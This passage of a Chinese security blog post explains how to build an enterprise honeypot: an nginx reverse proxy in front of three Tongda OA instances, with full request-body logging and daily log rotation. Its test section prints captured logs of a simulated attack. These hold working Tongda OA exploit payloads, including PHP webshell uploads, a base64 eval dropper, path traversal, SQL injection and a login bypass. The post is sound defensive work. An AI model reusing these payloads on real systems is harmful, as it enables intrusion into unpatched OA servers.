        server_name  oa.ccc.com;

        location / {
            proxy_pass http://192.168.17.219:80;
            proxy_set_header Host $host ;
            proxy_set_header X-Real-IP $remote_addr ;
            client_max_body_size   2048m;
            proxy_connect_timeout 300s;
            proxy_read_timeout 300s;
            proxy_send_timeout 300s;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }
        error_page   500 502 503 504  /50x.html;
        location = /50x.html {
            root   html;
        }
    }
```

**D、禁止IP地址访问**  
为了使攻击者只能通过域名来访问，我们需要在反向代理服务器上设置禁止通过IP地址来访问服务，只允许通过域名的访问，我们可以再nginx.conf中进行如下配置来实现，这里的意思是指如果没有匹配上的server name，那么就会找default默认，返回403错误

```plain
server {
   listen 80 default_server;
   server_name _;
   return 403; 
}
```

##### [Windows 7 1~3：OA系统1](#toc_windows-7-13oa1)

Window 7操作系统中只需要下载通达OA官方安装包并进行安装即可，过程不再赘述：  
[](https://storage.tttang.com/media/attachment/2022/11/15/e555ad49-cfdd-4428-afa2-2823f57083ab.png)

安装后启动即可：

[](https://storage.tttang.com/media/attachment/2022/11/15/4ba6db51-8bd4-4f85-abee-805de132be59.png)

#### [日志采集](#toc__11)

##### [日志格式配置](#toc__12)

日志是我们后期对攻击者的攻击行为进行分析的重要依据，所以能否采集到全量的攻击日志对我们蜜罐搭建的成败其实起的了很重要的作用，一个全量的日志有助于我们更加轻松、快捷的分析和定位攻击者利用的攻击载荷，另一个方面是有助于我们再现攻击者的采用0day入侵时的攻击路径  
Nginx的配置文件中提供了一个名为main的日志记录格式实例，默认使用注释进行了标注，用户使用时只需去除注释即可，具体示例如下：

```plain
    #log_format  main  '$remote_addr - $remote_user [$time_local] "$request" '
    #                  '$status $body_bytes_sent "$http_referer" '
    #                  '"$http_user_agent" "$http_x_forwarded_for"';
```

相关变量说明： \* $remote\_addr：记录访问网站的客户端地址 \* $remote\_user：远程客户端用户名 \* $time\_local：记录访问时间与时区 \* $request：用户的http请求起始行信息 \* $status：http状态码，记录请求返回的状态码，例如：200、301、404等 \* $body\_bytes\_sent：服务器发送给客户端的响应body字节数 \* $http\_referer：记录此次请求是从哪个连接访问过来的，可以根据该参数进行防盗链设置。 \* $http\_user\_agent：记录客户端访问信息，例如：浏览器、手机客户端等 \* $http\_x\_forwarded\_for：当前端有代理服务器时，设置Web节点记录客户端地址的配置，此参数生效的前提是代理服务器也要进行相关的x\_forwarded\_for设置  
在这里我们会发现以上的记录只会记录到一些简单的请求，但是并不会记录到我们实际的POST类请求，为了记录到请求体我们需要自定义log\_format：

```plain
    log_format  main  '$remote_addr - $remote_user [$time_local] "$request"'
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for" "$request_body"';
```

##### [日志存储选择](#toc__13)

由于我们的日志采集由是否有攻击者进行攻击而决定，所以日志的体量并不确定，故而我们要选取一个存储空间较大的目录来存储对应的日志文件，在这里我们选择在根目录下创建一个data文件夹来存储日志  
[](https://storage.tttang.com/media/attachment/2022/11/15/db154804-2310-4716-81e2-faf082d45f6d.png)

##### [日志采集周期](#toc__14)

由于我们的日志采集由是否有攻击者进行攻击而决定，所以不但是日志的体量并不确定，而且攻击者攻击的时间也不确定，如果我们将所有的日志都记录到一个文件中，那么这个文件将会很大很大，这个对我们后期进行分析将会带来不必要的麻烦，基于此我们可以创建三个文件夹分别用于存储攻击者访问三台OA系统的日志  
[](https://storage.tttang.com/media/attachment/2022/11/15/1e32f594-9405-4022-b1ef-d3ac4e934fa3.png)

同时我们还需要对日志进行按天来记录：

```plain
   map $time_iso8601 $logdate {
    '~^(?<ymd>\d{4}-\d{2}-\d{2})' $ymd;
    default    'date-not-found';
    }
```

#### [最终配置](#toc__15)

最终的Nginx配置文件如下所示：

```plain
worker_processes  3;

error_log  logs/error.log;
error_log  logs/error.log  notice;
error_log  logs/error.log  info;

pid        logs/nginx.pid;


events {
    worker_connections  1024;
}


http {
    include       mime.types;
    default_type  application/octet-stream;
    sendfile        on;
    keepalive_timeout  65;
    map $time_iso8601 $logdate {
        '~^(?<ymd>\d{4}-\d{2}-\d{2})' $ymd;
        default    'date-not-found';
    }
    log_format  main  '$remote_addr - $remote_user [$time_local] "$request"'
                       '$status $body_bytes_sent "$http_referer" '
                       '"$http_user_agent" "$http_x_forwarded_for" "$request_body"';

    upstream oa.aaa.com{
        server 192.168.17.206:80;
      }

    upstream oa.bbb.com{
        server 192.168.17.218:80;
    }

    upstream oa.ccc.com{
        server 192.168.17.219:80;
    }


    server {
         listen 80 default_server;
            server_name _;
            return 403;
    }

    server {
        listen       80;
        server_name  oa.aaa.com;

        location / {
            proxy_pass http://192.168.17.206:80;
            proxy_set_header Host $host ;
            proxy_set_header X-Real-IP $remote_addr ;
            client_max_body_size   2048m;
            proxy_connect_timeout 300s;
            proxy_read_timeout 300s;
            proxy_send_timeout 300s;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }

        error_page   500 502 503 504  /50x.html;
        location = /50x.html {
            root   html;
        }
        access_log    /data/log/nginx/server1/access1-$logdate.log    main;

    }

    server {
        listen       80;
        server_name  oa.bbb.com;

        location / {
            proxy_pass http://192.168.17.218:80;
            proxy_set_header Host $host ;
            proxy_set_header X-Real-IP $remote_addr ;
            client_max_body_size   2048m;
            proxy_connect_timeout 300s;
            proxy_read_timeout 300s;
            proxy_send_timeout 300s;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }

        error_page   500 502 503 504  /50x.html;
        location = /50x.html {
            root   html;
        }
        access_log    /data/log/nginx/server2/access2-$logdate.log    main;
    }

    server {
        listen       80;
        server_name  oa.ccc.com;

        location / {
            proxy_pass http://192.168.17.219:80;
            proxy_set_header Host $host ;
            proxy_set_header X-Real-IP $remote_addr ;
            client_max_body_size   2048m;
            proxy_connect_timeout 300s;
            proxy_read_timeout 300s;
            proxy_send_timeout 300s;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }

        error_page   500 502 503 504  /50x.html;
        location = /50x.html {
            root   html;
        }
        access_log    /data/log/nginx/server3/access3-$logdate.log    main;
    }
}
```

#### [测试演示](#toc__16)

Step 1：更新nginx.conf后重新启动nginx

```plain
./nginx -s quit
./nginx 
```

[](https://storage.tttang.com/media/attachment/2022/11/15/be46637b-dcbb-4825-8aae-2d28c1edb44e.png)

Step 2：测试域名解析  
[](https://storage.tttang.com/media/attachment/2022/11/15/9824158a-8686-4b93-a483-eb469433612b.png)  
[](https://storage.tttang.com/media/attachment/2022/11/15/93e6ca9d-82b1-4fcb-a63c-9bdd1b03c6db.png)  
[](https://storage.tttang.com/media/attachment/2022/11/15/00bd1342-3b1f-460e-93d2-8f8dd9a22f07.png)

Step 3：蜜罐入侵攻击操作  
[](https://storage.tttang.com/media/attachment/2022/11/15/c4bf29ac-b780-48ff-8747-4423d842f1e7.png)

Step 4：日志记录查看  
[](https://storage.tttang.com/media/attachment/2022/11/15/d2b29f31-0076-4d2e-bc32-e5fa70385fc9.png)

[](https://storage.tttang.com/media/attachment/2022/11/15/0b5604a7-52cb-4844-84b3-6edbf3c8a0dd.png)

简易记录裁取如下(由于这里我们再现环境时使用的是本地构建的环境，所以攻击IP地址源自我们本地的局域网地址，但是整个流程与云上搭建一样，这里只不过就是少了一个域名注册的点，而这也是一个坑点)：

```plain
192.168.17.1 - - [15/Nov/2022:10:27:09 -0500] "GET / HTTP/1.1"200 4140 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:09 -0500] "GET /static/images/tongda.ico HTTP/1.1"200 894 "http://oa.aaa.com/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:31 -0500] "GET //inc/expired.php HTTP/1.1"200 2840 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:31 -0500] "GET //ispirit/login_code.php HTTP/1.1"200 251 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:32 -0500] "GET //general/ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:32 -0500] "GET //mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0 HTTP/1.1"200 17 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:33 -0500] "GET //general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.%3C%3E./.%3C%3E./.%3C%3E./ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:33 -0500] "GET //ispirit/login_code.php HTTP/1.1"200 251 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //general/ HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0 HTTP/1.1"200 17 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //inc/expired.php HTTP/1.1"200 2840 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:34 -0500] "GET //module/appbuilder/assets/print.php HTTP/1.1"404 36 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:35 -0500] "POST //ispirit/im/upload.php HTTP/1.1"200 47 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36" "-" "--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22P\x22\x0D\x0A\x0D\x0A123\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22Filename\x22\x0D\x0A\x0D\x0Aphp.jpg\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22DEST_UID\x22\x0D\x0A\x0D\x0A1\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22UPLOAD_MODE\x22\x0D\x0A\x0D\x0A2\x0D\x0A--88d153850f4cd9519a022a3e88cd6569\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT\x22; filename=\x22ATTACHMENT\x22\x0D\x0A\x0D\x0A<?php $command='whoami';$wsh = new COM('WScript.shell');$exec = $wsh->exec('cmd /c '.$command);$stdout = $exec->StdOut();$stroutput = $stdout->ReadAll();echo $stroutput;?>\x0D\x0A--88d153850f4cd9519a022a3e88cd6569--\x0D\x0A"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "POST //mobile/api/api.ali.php HTTP/1.1"200 31 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "--502f67681799b07e4de6b503655f5cae\x0D\x0AContent-Disposition: form-data; name=\x22file\x22; filename=\x22fb6790f4tongda.json\x22\x0D\x0AContent-Type: application/octet-stream\x0D\x0A\x0D\x0A{\x22modular\x22:\x22AllVariable\x22,\x22a\x22:\x22ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0dG9uZ2RhLnBocCcsJzw/cGhwICRhPSJ+K2QoKSJeIiF7K3t9IjskYj0keyRhfVsieCJdO2V2YWwoIiIuJGIpOz8+Jyk7==\x22,\x22dataAnalysis\x22:\x22{\x5C\x22a\x5C\x22:\x5C\x22\xE9\x8C\xA6',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\x5C\x22}\x22}\x0D\x0A--502f67681799b07e4de6b503655f5cae--"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "GET //inc/package/work.php?id=../../../../../myoa/attach/approve_center/2204/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4tongda HTTP/1.1"500 5 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "GET //fb6790f4tongda.php HTTP/1.1"404 56 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36" "-" "-"
192.168.17.1 - - [15/Nov/2022:10:27:36 -0500] "POST //logincheck_code.php HTTP/1.1"200 62 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "UID=1&CODEUID=_PC{C09D5F0C-5957-8F8D-E3C6-A1D23DF8CD6F}"
192.168.17.1 - - [15/Nov/2022:10:27:37 -0500] "POST //general/bi_design/appcenter/report_bi.func.php HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "_POST[dataset_id]=efgh'-@`'`)union select database(),2,user()#'&action=get_link_info&"
192.168.17.1 - - [15/Nov/2022:10:27:38 -0500] "POST //general/file_folder/swfupload_new.php HTTP/1.1"200 2493 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT_ID\x22\x0D\x0A\x0D\x0A1\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT_NAME\x22\x0D\x0A\x0D\x0A1\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22FILE_SORT\x22\x0D\x0A\x0D\x0A2\x0D\x0A------------GFioQpMK0vv2\x0D\x0AContent-Disposition: form-data; name=\x22SORT_ID\x22\x0D\x0A\x0D\x0A------------GFioQpMK0vv2--"
192.168.17.1 - - [15/Nov/2022:10:27:38 -0500] "POST //logincheck_code.php HTTP/1.1"200 62 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "UID=1&CODEUID=_PC{6047FF7A-0B4A-3311-E5A9-31D28A933872}"
192.168.17.1 - - [15/Nov/2022:10:27:39 -0500] "POST //ispirit/im/upload.php HTTP/1.1"200 25 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "--********\x0D\x0AContent-Disposition: form-data; name=\x22UPLOAD_MODE\x22\x0D\x0A\x0D\x0A2\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22P\x22\x0D\x0A\x0D\x0A123\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22DEST_UID\x22\x0D\x0A\x0D\x0A1\x0D\x0A--********\x0D\x0AContent-Disposition: form-data; name=\x22ATTACHMENT\x22; filename=\x22png\x22\x0D\x0AContent-Type: image/jpeg\x0D\x0A\x0D\x0A<?php file_put_contents($_SERVER[\x22DOCUMENT_ROOT\x22].\x22//zskwgpaodw.php\x22,base64_decode(\x22PD9waHAgJGE9In4rZCgpIl4iIXsre30iOyRiPSR7JGF9WyJ4Il07ZXZhbCgiIi4kYik7Pz4=\x22).\x22zskwgpaodw\x22);?><?php unlink(__FILE__);echo \x22zskwgpaodw\x22;?>\x0D\x0A--********\x0D\x0A\x0D\x0A"
192.168.17.1 - - [15/Nov/2022:10:27:39 -0500] "GET //mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3 HTTP/1.1"200 17 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.7 Safari/537.36" "-" "-"
```

oa.bbb.com检测操作：  
[](https://storage.tttang.com/media/attachment/2022/11/15/548e5503-83ca-4b17-aeb3-ce360b8b3f57.png)

oa.bbb.com日志捕获如下：  
[](https://storage.tttang.com/media/attachment/2022/11/15/a1968f46-0f6a-406e-9a0b-ff79eb14f69e.png)

[](https://storage.tttang.com/media/attachment/2022/11/15/48ad0168-cced-4f44-91bf-6e466fd62207.png)

其余不再赘述~

### [日志分析](#toc__17)

至于日志分析可以采用360星图工具来进行分析(需要自定义模板)或者使用脚本工具根据特征进行日志筛选，其实网络上还是有很多日志分析工具的，可以找找看，这里不再赘述

### [简易思考](#toc__18)

在搭建蜜罐体系的过程中企业应该就以下问题进行深入思考： \* 如何提高蜜罐的可信度来吸引攻击者攻击？ \* 蜜罐搭建过程中是否有必要使用WAF防护？ \* 蜜罐搭建过程中使用到的操作系统配置如何选取？ \* 蜜罐搭建过程中如何规避搭建的蜜罐成为后期攻击者长驱直入攻击企业正式网络的途径？ \* 蜜罐搭建过程中如何有效的攻击者的攻击日志进行全量采集并对日志按天进行分割存储？ \* 蜜罐搭建完成并投入使用后如何对蜜罐进行运营(重点关注什么？日志采集分析周期多久？)

### [坑点总结](#toc__19)

-   快照备份：蜜罐搭建完成后一定要做一个快照，以防攻击者通过0day打入后发现陷入蜜罐而进行恶意操作来破坏系统，导致系统后期无法正常运行
-   网络拓扑：在搭建蜜罐的前期一定要画好网络拓扑，把该考虑的各种问题全部考虑进去(蜜罐目的、访问方式(域名/IP)、日志采集、日志存储、网络隔离等)
-   域名注册：域名注册本来觉得很是容易，只需要几步即可，但是这个成为了搭建过程中最大的坑点，整个流程大致要花费1个月左右，所以建议在搭建蜜罐的前期就先确定好域名，之后在搭建蜜罐环境的同时就进行域名的备份，不然后期搭建完成后了再进行备份就很耽误时间

### [文末小结](#toc__20)

本篇文章我们就蜜罐的定义、蜜罐的分类、蜜罐的用途以及企业搭建蜜罐的过程中会涉及到的蜜罐架构的设计、蜜罐自身的安全问题等进行了讨论，之前很多人都将蜜罐的使用局限于HW行动中对攻击者的溯源，而本篇文章则站在甲方安全需求方对蜜罐的使用维度进行了扩充，其中自然也有很多不足之处有待改进，欢迎随时讨论交流~

### [参考连接](#toc__21)

\[1\] [https://hfish.net/](https://hfish.net/)  
\[2\] [https://blog.csdn.net/Fly\_hps/article/details/122241747](https://blog.csdn.net/Fly_hps/article/details/122241747)  
\[3\] [https://blog.csdn.net/m0\_37642477/article/details/115499027](https://blog.csdn.net/m0_37642477/article/details/115499027)  
\[4\] [https://baike.baidu.com/item/%E8%9C%9C%E7%BD%90%E6%8A%80%E6%9C%AF](https://baike.baidu.com/item/%E8%9C%9C%E7%BD%90%E6%8A%80%E6%9C%AF)  
\[5\] [https://mp.weixin.qq.com/s?\_\_biz=Mzg4MTU4NTc2Nw==&mid=2247486387&idx=1&sn=4e2b87fdee1076f68b4670dd4924d369&chksm=cf62f0bbf81579ad68434e1254916aec99a87928ebb198391151463da1193e6b58b93e225dda&token=1694274520&lang=zh\_CN#rd](https://mp.weixin.qq.com/s?__biz=Mzg4MTU4NTc2Nw==&mid=2247486387&idx=1&sn=4e2b87fdee1076f68b4670dd4924d369&chksm=cf62f0bbf81579ad68434e1254916aec99a87928ebb198391151463da1193e6b58b93e225dda&token=1694274520&lang=zh_CN#rd)
